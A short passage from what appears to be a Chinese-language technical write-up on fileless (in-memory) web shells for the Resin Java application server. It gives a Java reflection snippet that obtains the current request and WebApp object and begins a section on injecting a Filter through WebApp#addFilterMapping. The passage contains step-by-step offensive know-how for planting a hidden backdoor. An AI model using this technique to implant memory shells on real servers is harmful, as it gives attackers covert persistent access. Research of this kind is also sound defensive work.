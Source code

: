 ```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
```

运行时截图

![image-20220106150529815](resin-fileless-shell.assets/image-20220106150529815.png)

##### Filter

###### 基于 addFilterMapping

addFilterMapping

- com.caucho.server.webapp.WebApp#addFilterMapping

![image-20220106162933997](resin-fileless-shell.assets/image-20220106162933997.png)
